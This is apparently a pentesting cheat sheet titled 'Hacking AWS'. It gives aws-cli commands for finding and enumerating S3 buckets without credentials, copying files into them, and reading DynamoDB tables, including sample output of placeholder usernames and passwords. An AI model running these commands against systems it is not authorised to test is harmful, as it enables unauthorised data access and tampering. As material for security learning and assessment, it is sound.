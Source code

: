 ```yaml
---
description: >-
  Amazon Web Services is a subsidiary of Amazon providing on-demand cloud
  computing platforms and APIs.
---
```


# Hacking AWS

## S3 Buckets

Amazon S3 has a simple web services interface that you can use to store and retrieve any amount of data, at any time, from anywhere on the web.

### AWS Configuration

You can get your credential here [https://console.aws.amazon.com/iam/home?#/security\_credential](https://console.aws.amazon.com/iam/home?#/security\_credential) but you need an aws account, free tier account : [https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free\_np/](https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free\_np/)

```
aws configure --profile <PROFILE_NAME>
AWSAccessKeyId= <AccessKeyID>
AWSSecretKey= <SecretKey>
Default Region Name= <Region>
Default Output Format = <json or text>
```

Or you can configure by default:

```
aws configure
```

### Search for S3 Buckets

We need to identify if the service running is a s3.

```
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
```

You can get the region of a bucket with a dig and nslookup:

```
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Enumeration

We will use `aws-cli` tool

* Use `--no-sign-request` for check Everyones permissions
* Use `--profile <PROFILE_NAME>` to indicate the previous configuration profile.

#### Search Buckets inside the same host:

```
aws s3 ls --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

#### List content of a bucket:

```
aws s3 ls s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

#### Copy content:

```
aws s3 cp /tmp/FILE s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

## DynamoDB

Amazon DynamoDB is a key-value and document database that delivers single-digit millisecond performance at any scale. It's a fully managed, multi-region, multi-active, durable database with built-in security, backup and restore, and in-memory caching for internet-scale applications.

### List tables

```
aws dynamodb list-tables --endpoint-url http://s3.DOMAIN.COM/
{
    "TableNames": [
        "TABLENAME"
    ]
}
```

### Get Table Content

```
aws dynamodb scan --table-name TABLENAME --endpoint-url http://s3.DOMAIN.COM/
{
    "Items": [
        {
            "password": {
                "S": "PWD@#1@#"
            },
            "username": {
                "S": "USER3"
            }
        },
        {
            "password": {
                "S": "PWD!"
            },
            "username": {
                "S": "USER2"
            }
        },
        {
            "password": {
                "S": "PWD"
            },
            "username": {
                "S": "USER1"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

### Create Table

```
aws dynamodb create-table --table-name TABLENAME--attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 --endpoint-url http://s3.DOMAIN.COM/
```

### Create Item

```
aws dynamodb update-item --table-name TABLENAME--key file://FILE.json --endpoint-url http://s3.DOMAIN.COM/

# where FILE.json is:

{
    "title": {"S": "TITLECONTENT"},
    "data": {"S": "DATACONTENT"}
}
```

* [https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3](https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3)
* [https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html)
